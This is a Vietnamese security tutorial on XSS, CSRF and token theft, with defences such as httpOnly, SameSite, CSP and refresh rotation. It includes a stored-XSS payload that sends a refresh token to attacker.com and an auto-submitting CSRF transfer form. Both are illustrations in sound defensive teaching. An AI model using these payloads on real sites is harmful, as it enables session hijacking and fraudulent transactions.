


# XSS, CSRF & Token Theft — Deep Dive

## Mục lục

- [1. Hai cách mất token: ĐỌC được vs bị GỬI hộ](#1-hai-cách-mất-token-đọc-được-vs-bị-gửi-hộ)
- [2. XSS — chạy script trong ngữ cảnh nạn nhân](#2-xss--chạy-script-trong-ngữ-cảnh-nạn-nhân)
- [3. Trace tấn công XSS đánh cắp token](#3-trace-tấn-công-xss-đánh-cắp-token)
- [4. httpOnly — chặn XSS đọc cookie](#4-httponly--chặn-xss-đọc-cookie)
- [5. CSRF — lừa trình duyệt gửi request hộ](#5-csrf--lừa-trình-duyệt-gửi-request-hộ)
- [6. Trace tấn công CSRF](#6-trace-tấn-công-csrf)
- [7. Nghịch lý httpOnly: chặn XSS lại mở CSRF](#7-nghịch-lý-httponly-chặn-xss-lại-mở-csrf)
- [8. Ma trận: nơi lưu × loại tấn công](#8-ma-trận-nơi-lưu--loại-tấn-công)
- [9. Phòng thủ nhiều lớp](#9-phòng-thủ-nhiều-lớp)
- [10. Code thực chiến](#10-code-thực-chiến)
- [11. Các đường trộm token khác (ngoài XSS/CSRF)](#11-các-đường-trộm-token-khác-ngoài-xsscsrf)
- [12. Rút ngắn cửa sổ thiệt hại khi token đã bị trộm](#12-rút-ngắn-cửa-sổ-thiệt-hại-khi-token-đã-bị-trộm)
- [13. Scenario thực tế](#13-scenario-thực-tế)
- [14. Anti-patterns cần tránh](#14-anti-patterns-cần-tránh)
- [15. Tóm tắt — Cheat sheet](#15-tóm-tắt--cheat-sheet)

---

## 1. Hai cách mất token: ĐỌC được vs bị GỬI hộ

XSS và CSRF hay bị gộp chung nhưng là **hai cơ chế ngược nhau**, và biện pháp chống cái này đôi khi mở cửa cho cái kia.

```
┌──────────────────────────────── XSS ────────────────────────────────┐
│  Attacker CHẠY ĐƯỢC JavaScript trong trang của nạn nhân.            │
│  → script ĐỌC token (nếu JS đọc được) rồi gửi đi / tự gọi API.       │
│  → "tôi đọc được bí mật của bạn"                                     │
└──────────────────────────────────────────────────────────────────────┘

┌──────────────────────────────── CSRF ───────────────────────────────┐
│  Attacker KHÔNG đọc được gì, nhưng LỪA trình duyệt nạn nhân TỰ gửi   │
│  request tới site thật — trình duyệt tự đính kèm COOKIE.             │
│  → "tôi không thấy bí mật, nhưng bắt trình duyệt bạn dùng nó hộ tôi" │
└──────────────────────────────────────────────────────────────────────┘
```

```
KHÁC BIỆT CỐT LÕI:
   XSS  cần: chạy được script trong origin nạn nhân → ĐỌC/thao túng mọi thứ
   CSRF cần: trình duyệt TỰ ĐỘNG gắn credential (cookie) vào request cross-site
             → attacker không cần đọc, chỉ cần "kích hoạt" request

⇒ XSS mạnh hơn nhiều (đọc được = chiếm sạch). CSRF chỉ "dùng hộ" credential
  mà trình duyệt tự gửi → chỉ áp dụng với cookie (thứ gửi tự động).
```

> [!IMPORTANT]
> Quy luật quyết định nơi lưu token: **thứ JavaScript đọc được thì XSS đọc được; thứ trình duyệt tự gửi thì CSRF lợi dụng được.** Mọi lựa chọn lưu trữ (xem [Secure Storage](/security/secure-storage/)) là đánh đổi giữa hai mặt này. Không có chỗ "miễn nhiễm cả hai" — chỉ có "chọn rủi ro nào để xử lý bằng biện pháp nào".

---

## 2. XSS — chạy script trong ngữ cảnh nạn nhân

XSS (Cross-Site Scripting): attacker chèn được mã JS chạy trong **origin** của ứng dụng, với mọi đặc quyền của trang đó.

```
3 loại XSS:
   • Stored   — payload lưu ở server (comment, profile) → mọi ai xem đều dính
   • Reflected— payload trong URL/param phản chiếu vào trang → dụ nạn nhân bấm link
   • DOM-based— JS client nhét dữ liệu chưa khử trùng vào DOM (innerHTML...)

Một khi script chạy trong origin nạn nhân, nó có quyền NHƯ trang đó:
   • đọc localStorage / sessionStorage
   • đọc cookie KHÔNG có httpOnly (document.cookie)
   • gọi API với token (kể cả token trong memory, nếu script cùng context)
   • sửa DOM, ghi keylogger, gửi dữ liệu ra ngoài
```

```
┌───────────────────────────────────────────────────────────────────────────┐
│  SỰ THẬT KHẮC NGHIỆT: nếu attacker chạy được JS trong trang bạn,            │
│  thì "token để đâu" chỉ quyết định attacker lấy token DỄ tới mức nào,       │
│  chứ không quyết định được/mất.                                            │
│     • localStorage → đọc trực tiếp 1 dòng → trộm trọn token (kể cả refresh) │
│     • memory       → khó "đọc bừa", nhưng script vẫn có thể hook fetch/     │
│                      chặn lúc token được dùng → trộm được, chỉ khó hơn      │
│     • httpOnly cookie → KHÔNG đọc được token, nhưng script vẫn GỌI được API │
│                      bằng cookie (ride session) trong lúc nạn nhân online   │
│  ⇒ phòng tuyến THẬT chống XSS là NGĂN script chạy (CSP + escape), không chỉ │
│    là chọn nơi lưu.                                                        │
└───────────────────────────────────────────────────────────────────────────┘
```

> [!WARNING]
> Đừng coi "để token trong memory/httpOnly" là chống được XSS. Nó **giảm thiệt hại** (không bị trộm refresh token sống-lâu) nhưng XSS đang chạy vẫn ride được phiên hiện tại. Phòng thủ gốc là **không cho XSS xảy ra**: escape output, Content-Security-Policy, tránh `innerHTML`/`dangerouslySetInnerHTML` với dữ liệu chưa làm sạch.

---

## 3. Trace tấn công XSS đánh cắp token

```
Giả định: app lưu access + refresh token trong localStorage (anti-pattern).

Bước 1 — chèn payload (stored XSS qua ô comment không escape):
   nạn nhân (và mọi người) mở trang có comment:
      <script>
        fetch('https://attacker.com/steal?d=' +
              encodeURIComponent(localStorage.getItem('refresh_token')));
      </script>

Bước 2 — script chạy trong origin nạn nhân:
   đọc localStorage.refresh_token (sống 7 ngày!) → gửi về attacker.com

Bước 3 — attacker dùng refresh token:
   POST /token (grant=refresh_token, refresh_token=<đánh cắp>)
   → nhận access mới → mạo danh nạn nhân TRONG 7 NGÀY (tới khi refresh hết hạn)
   → nếu có reuse detection, có thể bị bắt khi nạn nhân refresh — nhưng attacker
     đã kịp gây hại / có thể chủ động làm nạn nhân logout
```



> [!NOTE]
> Điểm chí mạng ở đây không phải bản thân XSS, mà là **refresh token sống-lâu để trong localStorage**: một lần XSS = chiếm phiên 7 ngày. Nếu refresh ở httpOnly cookie, cùng XSS đó *không đọc được* refresh → thiệt hại giới hạn ở access token ngắn hạn + ride session khi online.

---

## 4. httpOnly — chặn XSS đọc cookie

Cookie gắn cờ `HttpOnly` **không** đọc được bằng `document.cookie` (JavaScript). Đây là rào chắn chính chống XSS *đọc* token.

```
Set-Cookie: refresh_token=abc...; HttpOnly; Secure; SameSite=Strict; Path=/token

   HttpOnly → document.cookie KHÔNG thấy nó → XSS không đọc/đánh cắp giá trị
   Secure   → chỉ gửi qua HTTPS → chống sniff trên HTTP trần
   SameSite → kiểm soát gửi cross-site → chống CSRF (xem §5,§7)
   Path     → chỉ đính kèm cho /token → giảm bề mặt (không gửi tới API khác)
```

```
httpOnly chặn được:                    httpOnly KHÔNG chặn:
   ✓ XSS đọc giá trị token                ✗ XSS GỌI API trong lúc nạn nhân online
   ✓ rò token qua document.cookie            (cookie tự đính kèm → ride session)
                                          ✗ CSRF (cookie tự gửi → cần SameSite/token)
```

> [!TIP]
> `HttpOnly` là lý do refresh token nên ở **cookie httpOnly** chứ không localStorage: ngay cả khi có XSS, kẻ tấn công không *lấy* được refresh token mang đi dùng lâu dài. Nhưng nhớ httpOnly chỉ chặn *đọc* — nó kéo theo nhu cầu chống CSRF (vì cookie tự gửi). Xem nghịch lý ở §7.

---

## 5. CSRF — lừa trình duyệt gửi request hộ

CSRF (Cross-Site Request Forgery): attacker không đọc được gì, nhưng dụ trình duyệt nạn nhân (đang đăng nhập site thật) **tự gửi** một request tới site thật. Vì trình duyệt **tự động đính kèm cookie**, request đó mang danh nạn nhân.

```
Điều kiện CSRF hoạt động:
   1. credential được trình duyệt GỬI TỰ ĐỘNG (= cookie). Token trong
      Authorization header KHÔNG tự gửi → CSRF cổ điển không áp dụng.
   2. request gây tác dụng phụ (chuyển tiền, đổi email) chỉ cần cookie để xác thực.
   3. nạn nhân đang có phiên đăng nhập (cookie còn hiệu lực).
```

```
Payload CSRF kinh điển (nạn nhân chỉ cần mở trang attacker):
   <form action="https://bank.com/transfer" method="POST" id="f">
     <input name="to" value="attacker">
     <input name="amount" value="10000">
   </form>
   <script>document.getElementById('f').submit();</script>

   → trình duyệt POST tới bank.com, TỰ kèm cookie phiên của nạn nhân
   → nếu bank.com chỉ dựa vào cookie để xác thực → giao dịch THỰC HIỆN
```

> [!IMPORTANT]
> CSRF chỉ ăn được credential mà trình duyệt **gửi tự động** — tức **cookie**. Đây là điểm mấu chốt: nếu bạn gửi JWT qua header `Authorization: Bearer` (JS phải chủ động gắn), CSRF cổ điển không lợi dụng được vì attacker không khiến JS của bạn gắn header cho request cross-site được. Đổi lại, token trong JS lại phơi ra XSS (§2).

---

## 6. Trace tấn công CSRF

```
Giả định: app dùng cookie phiên (hoặc JWT trong cookie KHÔNG có SameSite) để xác thực,
          và endpoint POST /transfer chỉ kiểm cookie.

Bước 1 — nạn nhân đăng nhập bank.com (cookie phiên còn hiệu lực trong trình duyệt).
Bước 2 — attacker dụ nạn nhân mở evil.com (email lừa, quảng cáo...).
Bước 3 — evil.com tự submit form POST tới bank.com/transfer.
Bước 4 — trình duyệt gửi request + TỰ kèm cookie bank.com → bank.com tưởng nạn nhân.
Bước 5 — giao dịch thực hiện. Nạn nhân không hề hay biết.
```



> [!NOTE]
> CSRF không trộm token — nó *mượn* phiên. Vì vậy phòng thủ CSRF không phải "giấu token" mà là "đảm bảo request thật sự xuất phát từ site của ta": `SameSite` cookie, anti-CSRF token, kiểm `Origin`/`Referer`.

---

## 7. Nghịch lý httpOnly: chặn XSS lại mở CSRF

```
┌───────────────────────────────────────────────────────────────────────────┐
│  ĐÁNH ĐỔI TRUNG TÂM:                                                       │
│                                                                             │
│  Token trong JS (localStorage / memory, gửi qua Authorization header):     │
│     ✓ KHÔNG bị CSRF (header không tự gửi cross-site)                        │
│     ✗ phơi ra XSS (JS đọc được / hook được)                                 │
│                                                                             │
│  Token trong cookie httpOnly (trình duyệt tự gửi):                         │
│     ✓ KHÔNG bị XSS ĐỌC (httpOnly)                                          │
│     ✗ phơi ra CSRF (cookie tự gửi cross-site) → CẦN chống CSRF             │
│                                                                             │
│  ⇒ Không có "thắng cả hai" miễn phí. Mỗi lựa chọn KÉO THEO một biện pháp    │
│    bù: chọn JS → phải diệt XSS (CSP/escape); chọn cookie → phải diệt CSRF.  │
└───────────────────────────────────────────────────────────────────────────┘
```

```
GIẢI PHÁP THỰC TẾ PHỔ BIẾN (kết hợp tốt nhất hai mặt):
   • access token  → MEMORY (biến JS), gửi qua Authorization header
       → không CSRF; nếu reload mất thì silent refresh lấy lại
   • refresh token → cookie httpOnly + Secure + SameSite=Strict/Lax, Path=/token
       → XSS không đọc được refresh; SameSite chặn CSRF cho /token
   • CHỐNG XSS toàn cục: CSP nghiêm + escape output (bảo vệ cả access ở memory)
```

> [!TIP]
> `SameSite=Strict` (hoặc `Lax`) gần như vô hiệu hóa CSRF cổ điển cho cookie đó: trình duyệt **không gửi** cookie kèm request khởi nguồn từ site khác. Kết hợp `SameSite` + `Path=/token` hẹp + (tùy chọn) anti-CSRF token cho endpoint nhạy cảm là phòng thủ CSRF vững. Chi tiết các lựa chọn lưu trữ ở [Secure Storage](/security/secure-storage/).

---

## 8. Ma trận: nơi lưu × loại tấn công

| Nơi lưu | Gửi thế nào | XSS đọc được? | CSRF lợi dụng? | Cần biện pháp bù |
|---------|-------------|----------------|-----------------|-------------------|
| `localStorage` | JS gắn header | **CÓ** ⚠️ | không | diệt XSS (khó tin cậy) — TRÁNH cho token |
| `sessionStorage` | JS gắn header | **CÓ** ⚠️ | không | như trên — TRÁNH |
| Biến memory (JS) | JS gắn header | khó đọc bừa, vẫn hook được | không | CSP/escape chống XSS |
| Cookie (không httpOnly) | trình duyệt tự gửi | **CÓ** ⚠️ | **CÓ** ⚠️ | tệ nhất — TRÁNH |
| Cookie httpOnly | trình duyệt tự gửi | KHÔNG | **CÓ** | SameSite + anti-CSRF |

```
ĐỌC ma trận:
   • "JS đọc được" (localStorage/sessionStorage/cookie thường) → XSS trộm sạch → tránh
   • access ở MEMORY: tốt cho token ngắn hạn (mất khi reload — chấp nhận được)
   • refresh ở COOKIE httpOnly: tốt cho token dài hạn (XSS không đọc) + chống CSRF
   • cookie KHÔNG httpOnly = tệ nhất: dính CẢ XSS lẫn CSRF
```

---

## 9. Phòng thủ nhiều lớp

```
LỚP 1 — NGĂN XSS (gốc rễ, bảo vệ MỌI nơi lưu token):
   □ Escape/encode mọi output theo ngữ cảnh (HTML/attr/JS/URL)
   □ Tránh innerHTML / dangerouslySetInnerHTML / v-html với dữ liệu chưa làm sạch
   □ Content-Security-Policy: chặn inline script + chỉ cho script từ nguồn tin cậy
        vd: Content-Security-Policy: default-src 'self'; script-src 'self'
   □ Trusted Types (trình duyệt hỗ trợ) chặn DOM-XSS sink
   □ Framework hiện đại (React/Vue/Angular) escape mặc định — đừng phá bằng API "raw"

LỚP 2 — GIẢM THIỆT HẠI NẾU XSS XẢY RA:
   □ refresh token ở httpOnly cookie (XSS không đọc được token sống-lâu)
   □ access token ngắn hạn (5–15') + ở memory
   □ refresh rotation + reuse detection (bắt token bị trộm — xem Access vs Refresh)

LỚP 3 — CHỐNG CSRF (khi dùng cookie):
   □ SameSite=Strict (hoặc Lax) cho cookie token
   □ Anti-CSRF token (double-submit / synchronizer) cho endpoint thay đổi trạng thái
   □ Kiểm Origin / Referer header phía server
   □ Path cookie hẹp (vd /token) → cookie không gửi tới API không cần

LỚP 4 — NỀN (chống trộm trên đường truyền):
   □ TLS bắt buộc (HSTS) → chống MITM/sniff
   □ Secure flag cho cookie → không gửi qua HTTP
   □ Không log token, không đưa token vào URL/query (rò qua Referer/log)
```

> [!IMPORTANT]
> Thứ tự ưu tiên: **Lớp 1 (ngăn XSS) là quan trọng nhất** vì XSS phá được mọi thứ. Lớp 2 giả định "XSS có thể vẫn xảy ra" và giới hạn thiệt hại. Lớp 3 bắt buộc nếu dùng cookie. Không lớp nào thay được lớp khác — phòng thủ JWT ở client là **nhiều lớp chồng nhau**.

---

## 10. Code thực chiến

### Thiết lập cookie refresh an toàn (Node/Express)

```javascript
res.cookie('refresh_token', refreshToken, {
  httpOnly: true,                 // XSS không đọc được
  secure: true,                   // chỉ HTTPS
  sameSite: 'strict',             // chống CSRF
  path: '/token',                 // chỉ gửi tới endpoint refresh
  maxAge: 7 * 24 * 60 * 60 * 1000 // 7 ngày
});
```

### Access token trong memory + silent refresh (client)

```javascript
let accessToken = null;                 // CHỈ trong memory, KHÔNG localStorage

async function apiFetch(url, opts = {}) {
  const res = await fetch(url, {
    ...opts,
    headers: { ...opts.headers, Authorization: `Bearer ${accessToken}` },
  });
  if (res.status === 401) {             // access hết hạn → silent refresh
    await refresh();                    // gọi /token (cookie refresh tự đính kèm)
    return apiFetch(url, opts);         // thử lại
  }
  return res;
}

async function refresh() {
  // KHÔNG truyền refresh token thủ công — nó ở httpOnly cookie, trình duyệt tự gửi
  const res = await fetch('/token', { method: 'POST', credentials: 'include' });
  if (!res.ok) { redirectToLogin(); return; }
  accessToken = (await res.json()).accessToken;   // lưu lại trong memory
}
```

### Content-Security-Policy (chặn XSS thực thi)

```
Content-Security-Policy:
   default-src 'self';
   script-src 'self';                 # KHÔNG 'unsafe-inline' → chặn inline script XSS
   object-src 'none';
   base-uri 'self';
   frame-ancestors 'none';            # chống clickjacking
```

> [!WARNING]
> Đừng đặt `'unsafe-inline'` trong `script-src` — nó vô hiệu hóa phần lớn giá trị của CSP (cho phép `<script>...</script>` chèn vào chạy). Dùng nonce/hash nếu cần inline script. CSP là một trong những biện pháp chống XSS hiệu quả nhất khi cấu hình chặt.

---

## 11. Các đường trộm token khác (ngoài XSS/CSRF)

XSS và CSRF là hai họ nổi tiếng nhất, nhưng token còn bị trộm qua nhiều đường khác. Threat model đầy đủ phải tính cả chúng:

```
┌───────────────────────────────────────────────────────────────────────────┐
│  ① MITM / sniff trên đường truyền                                          │
│     HTTP trần / TLS bị hạ cấp → kẻ giữa đọc trọn token trong request.       │
│     VÁ: TLS bắt buộc + HSTS (chống hạ cấp) + certificate pinning (mobile).  │
│                                                                             │
│  ② Token rò vào LOG / URL / Referer                                        │
│     token trong query string → vào access log (LB/CDN/app), lịch sử trình  │
│     duyệt, header Referer khi tải tài nguyên ngoài.                        │
│     VÁ: token ở Authorization header; không bao giờ log token; scrub log.   │
│                                                                             │
│  ③ Dependency độc / supply-chain (npm bị nhiễm)                            │
│     một thư viện JS bị chèn mã độc chạy NGAY trong origin bạn → tương đương │
│     XSS: đọc được mọi thứ JS đọc được (localStorage, hook fetch).          │
│     VÁ: CSP (giới hạn nơi gửi dữ liệu ra), SRI, khóa version, audit deps,   │
│         token sống-lâu KHÔNG để chỗ JS đọc (httpOnly).                     │
│                                                                             │
│  ④ Browser extension độc / malware trên máy nạn nhân                       │
│     extension có quyền đọc trang → đọc token client-side.                   │
│     VÁ: giới hạn (server-side khó kiểm soát máy client); httpOnly + DPoP    │
│         (token trộm vẫn vô dụng nếu thiếu proof-of-possession — xem         │
│         Threat Model §9) là phòng thủ mạnh nhất ở đây.                     │
│                                                                             │
│  ⑤ Lộ refresh token ở server / backup / Git                               │
│     refresh token / secret commit nhầm vào repo, lộ trong backup/dump DB.   │
│     VÁ: không commit secret; mã hóa store; rotation + reuse detection.      │
└───────────────────────────────────────────────────────────────────────────┘
```

> [!IMPORTANT]
> Đường ③ (supply-chain) đáng sợ vì nó **biến mọi app có dependency JS thành nạn nhân XSS tiềm tàng** mà không cần lỗi code của bạn — chỉ cần một package trong cây phụ thuộc bị chiếm. Đây là lý do mạnh để (a) refresh token ở `httpOnly` (mã độc trong bundle vẫn không đọc được), (b) CSP giới hạn `connect-src` (mã độc khó gửi token ra domain lạ), và (c) cân nhắc [BFF](/security/secure-storage/) cho hệ nhạy cảm.

---

## 12. Rút ngắn cửa sổ thiệt hại khi token đã bị trộm

Phòng thủ hoàn hảo không tồn tại — phải giả định "một lúc nào đó token sẽ bị lộ" và thiết kế để **thiệt hại nhỏ + phát hiện nhanh**. Đây là tư duy *assume breach*.

```
3 ĐÒN GIẢM THIỆT HẠI (kết hợp):

   ① TTL ACCESS NGẮN (5–15')
      token access trộm chỉ dùng được tới khi hết hạn → cửa sổ tấn công hẹp.
      so sánh: access 24h trộm = 1 ngày tự do; access 10' = tối đa 10'.

   ② REFRESH ROTATION + REUSE DETECTION
      mỗi lần refresh đổi token mới; refresh cũ dùng lại = tín hiệu trộm
      → thu hồi cả "family" → cả nạn nhân lẫn kẻ trộm bị đá ra, buộc đăng nhập lại.
      → biến "trộm refresh = phiên 7 ngày" thành "trộm refresh = bị phát hiện ở
        lần refresh tiếp theo". (chi tiết: Access vs Refresh, Revocation & Logout)

   ③ RÀNG BUỘC NGƯỜI GỬI (DPoP/mTLS) cho hệ nhạy cảm
      token trộm thiếu proof-of-possession → vô dụng ngay (xem Threat Model §9).
```

```
TRỤC THỜI GIAN — vì sao rotation bắt được trộm:
   t0  attacker trộm refresh RT1 (qua XSS/log)
   t1  nạn nhân refresh bình thường: RT1 → RT2 (RT1 đánh dấu đã dùng)
   t2  attacker dùng RT1 (đã rotated!) → server thấy RT1 reuse
       → REUSE DETECTED → thu hồi cả family (RT1,RT2,...) → cả hai phải login lại
   ⇒ trộm bị biến thành sự kiện PHÁT HIỆN ĐƯỢC, không phải chiếm phiên âm thầm.
```

> [!TIP]
> Triết lý *assume breach*: đừng chỉ hỏi "làm sao token không bị trộm?" mà thêm "nếu bị trộm thì thiệt hại bao lâu, có phát hiện được không?". TTL ngắn + rotation + reuse detection biến một vụ trộm token từ thảm họa âm thầm thành sự cố nhỏ, phát hiện được, khôi phục được. Gắn cảnh báo cho `refresh_reuse_detected_total` để biết ngay khi có token bị dùng lại.

---

## 13. Scenario thực tế

### Scenario A — SPA để token ở localStorage bị stored XSS

```
Triệu chứng: nhiều user báo phiên bị chiếm dù mật khẩu mạnh, không lộ.
Điều tra:    ô bình luận render bằng innerHTML không escape → stored XSS.
             payload đọc localStorage.refresh_token gửi về domain lạ.
Hậu quả:     attacker giữ refresh 7 ngày cho mỗi nạn nhân xem comment.
Khắc phục:   (1) escape output + CSP; (2) chuyển refresh sang httpOnly cookie;
             (3) rút TTL refresh + bật reuse detection; (4) thu hồi toàn bộ refresh
             hiện hữu (force re-login) — xem Revocation & Logout.
```

### Scenario B — JWT trong cookie không SameSite → CSRF chuyển tiền

```
Triệu chứng: giao dịch trái phép từ user đang đăng nhập.
Điều tra:    JWT để trong cookie KHÔNG đặt SameSite; /transfer chỉ kiểm cookie.
             trang quảng cáo độc auto-submit form POST /transfer.
Khắc phục:   SameSite=Strict cho cookie; thêm anti-CSRF token cho /transfer;
             kiểm Origin header. (Hoặc chuyển access sang Authorization header +
             memory để CSRF không áp dụng.)
```

### Scenario C — Token rò qua URL vào log/Referer

```
Triệu chứng: token xuất hiện trong access log của CDN và trong header Referer
             gửi tới bên thứ ba.
Điều tra:    app đính access token vào query string (?token=...) cho tiện.
Hậu quả:     token lưu trong log nhiều tầng + rò qua Referer khi trang tải tài
             nguyên bên ngoài.
Khắc phục:   chuyển token sang Authorization header; không bao giờ đặt token vào URL.
```

---

## 14. Anti-patterns cần tránh

| Anti-pattern | Hậu quả | Làm đúng |
|--------------|---------|----------|
| Lưu token (nhất là refresh) ở `localStorage` | XSS trộm sạch, phiên dài hạn | Refresh ở httpOnly cookie; access ở memory |
| Coi "memory/httpOnly" là chống được XSS | XSS vẫn ride session / hook fetch | Diệt XSS từ gốc (CSP + escape) |
| Cookie token không đặt `SameSite` | CSRF lợi dụng | SameSite=Strict/Lax + anti-CSRF |
| `script-src 'unsafe-inline'` trong CSP | CSP gần như vô dụng với XSS | Bỏ unsafe-inline; dùng nonce/hash |
| Token trong URL/query string | Rò qua log/Referer/lịch sử | Token ở Authorization header |
| Không TLS / không Secure flag | Sniff/MITM trộm token | TLS + HSTS + Secure cookie |
| `innerHTML`/`v-html` với dữ liệu user | DOM-XSS | Escape; tránh sink raw HTML |
| Refresh TTL dài + không rotation | XSS một lần = chiếm phiên rất lâu | TTL hợp lý + rotation + reuse detection |

---

## 15. Tóm tắt — Cheat sheet

```
╭──────────────────────────────────────────────────────────────────────────╮
│  XSS  = attacker CHẠY JS trong trang bạn → ĐỌC/ride token                  │
│  CSRF = attacker LỪA trình duyệt TỰ gửi request kèm COOKIE                 │
│                                                                            │
│  QUY LUẬT:                                                                 │
│    JS đọc được   → XSS trộm được   (localStorage/sessionStorage = tránh)   │
│    trình duyệt tự gửi → CSRF lợi dụng được (cookie → cần SameSite)         │
│                                                                            │
│  NGHỊCH LÝ httpOnly:                                                       │
│    token trong JS  → không CSRF nhưng phơi XSS                             │
│    token trong cookie httpOnly → không XSS-đọc nhưng phơi CSRF             │
│    ⇒ không có "thắng cả hai" miễn phí                                      │
│                                                                            │
│  CÔNG THỨC THỰC TẾ:                                                        │
│    access  → MEMORY + Authorization header (không CSRF)                    │
│    refresh → httpOnly + Secure + SameSite + Path=/token                    │
│    + CSP nghiêm & escape (diệt XSS) + TLS (diệt sniff)                     │
│    + rotation/reuse detection (giảm thiệt hại nếu lỡ trộm)                 │
│                                                                            │
│  PHÒNG THỦ NHIỀU LỚP: 1 ngăn XSS  2 giảm thiệt hại  3 chống CSRF  4 TLS    │
╰──────────────────────────────────────────────────────────────────────────╯
```

**3 nguyên tắc xương sống:**

1. **XSS và CSRF ngược nhau — chống cái này có thể mở cái kia.** "JS đọc được" → XSS; "trình duyệt tự gửi" → CSRF. Mọi lựa chọn lưu trữ là đánh đổi, luôn kèm biện pháp bù.
2. **Ngăn XSS là phòng tuyến gốc.** XSS chạy được thì nơi lưu chỉ đổi mức độ khó; CSP nghiêm + escape output + tránh sink raw HTML là quan trọng nhất.
3. **Công thức an toàn: access ở memory (header) + refresh ở httpOnly cookie (SameSite) + TLS + rotation.** Không bao giờ để token (nhất là refresh) trong localStorage hay trong URL.

Đọc tiếp: [Secure Storage — Deep Dive](/security/secure-storage/) (web vs mobile, chi tiết từng nơi lưu) và [Security Best Practices](/security/security-best-practices/).
